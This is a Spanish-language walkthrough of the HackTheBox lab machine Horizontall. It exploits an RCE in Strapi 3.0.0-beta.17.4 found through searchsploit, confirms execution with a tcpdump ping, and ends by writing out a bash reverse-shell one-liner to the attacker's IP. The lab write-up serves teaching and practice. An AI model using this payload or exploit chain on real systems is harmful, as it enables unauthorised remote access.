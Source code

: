 Esto es lo que nos encuentra:

![image](../zimages/Pasted%20image%2020241105171532.png)


# Strapi Exploitation

Después de fijarse en todos los directorios, el que se llama '/init' nos da una pista, vamos a hacerle un curl para verlo mejor:

```bash
curl http://api-prod.horizontall.htb/admin/init | jq
```

Nos da la siguiente versión de "Strapi":

![image](../zimages/Pasted%20image%2020241105171742.png)

Vamos a buscar esa versión con el siguiente comando 

```bash
searchsploit Strapi 3.0.0-beta.17.4
```

Nos da una vulnerabilidad de RCE (Remote Code Execution), la descargamos:

![image](../zimages/Pasted%20image%2020241105171958.png)

Si ejecutamos el exploit, vemos que nos da un token de usuario, es decir, que se ha ejecutado correctamente y tenemos ejecución remota de comandos, el problema es que no nos muestra ningún output:

![image](../zimages/Pasted%20image%2020241105172211.png)

Vamos a probar a hacernos un ping a nuestra máquina atacante a ver si nos ejecuta los comandos. Lo primero es activar tcpdump para ver el ping:

```bash
tcpdump -i tun0 icmp -n
```

- Explicación:
	1. Parámetro '-i': Sirve para especificar la interfaz de red que vamos a analizar.
	2. Parámetro 'icmp': Le especificamos que queremos que nos muestre únicamente trazas icmp, es decir, el tipo de trazas que lanza el ping.
	3. Parámetro '-n': Especifica que no queremos que nos haga resolución DNS, esto nos muestra la ip de la víctima (10.10.11.105) en vez de su dominio (horizontall.htb)

Esto es lo que recibimos:

![image](../zimages/Pasted%20image%2020241105172827.png)

Quiere decir que tenemos RCE, vamos a intentar conseguir una reverse shell. Para no liarla mucho, vamos a crearnos un archivo .html con el siguiente código:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/443 0>&1
```
